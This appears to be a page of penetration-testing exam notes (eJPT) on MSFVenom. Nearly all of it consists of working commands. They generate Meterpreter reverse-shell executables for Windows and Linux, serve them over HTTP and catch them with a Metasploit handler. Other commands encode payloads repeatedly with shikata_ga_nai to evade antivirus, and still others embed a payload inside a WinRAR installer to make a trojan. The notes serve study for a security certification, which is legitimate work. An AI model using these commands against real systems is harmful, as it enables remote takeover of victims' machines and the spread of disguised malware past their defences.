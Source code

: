 ## MSFVenom

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Generating Payload with MSFVenom
```
msfvenom —list payloads
```
#### Windows
```
msfvenom -a x86 -p windows/x86/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f exe > home/kali/Desktop/Windows_Payloads/payloadx86.exe
```
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f exe > home/kali/Desktop/Windows_Payloads/payloadx64.exe
```
```
msfvenom —list formats
```

#### Linux
```
msfvenom p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f elf > home/kali/Desktop/Linux_Payloads/payloadx86
```
```
msfvenom p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f elf > home/kali/Desktop/Linux_Payloads/payloadx64
```

#### Usage
```
sudo python -m SimpleHTTPServer 8080
sudo python3 -m http.server 8080
```
These commands create a basic HTTP server in the folder where they are executed, running on port 8080.

Metasploit needs to be opened and running the module multi/handler with a configuration that matches the payload.
```
msfconsole
use multi/handler
set payload windows/x86/meterpreter/reverse_tcp
```
On the target machine, we can open a browser and download the file. Alternatively, we can use "wget" on Linux or "certutil" on Windows.


### Encoding Payload with MSFVenom
```
msfvenom —list encoders
```
```
msfvenom -p windows/meterpreter/reverse_tcp LSHOST=10.10.10.1 LPORT=1234 -e x86/shikata_ga_nai -f exe > /Desktop/encode_dx86.exe
```
```
msfvenom -p windows/meterpreter/reverse_tcp LSHOST=10.10.10.1 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > /Desktop/encode_dx86.exe
```
This command attempts to elude firewall or antivirus by encoding the payload 10 times. "shikata_ga_nai" is the most effective method because it employs a polymorphic type encoding. However, beyond 10 iterations, its effectiveness diminishes.


### Injecting Payload into windows portable executables
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x /Downloads/winrar602.exe > /Desktop/Windows_Payloads/winrar.exe
```
This command injects the payload into winrar.exe, but it doesn’t retain the original function of the executable.

To retain some of the original functionalities, we need to add the -k flag, although this command doesn’t always work.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x /Downloads/winrar602.exe > /Desktop/Windows_Payloads/winrar_new.exe
```
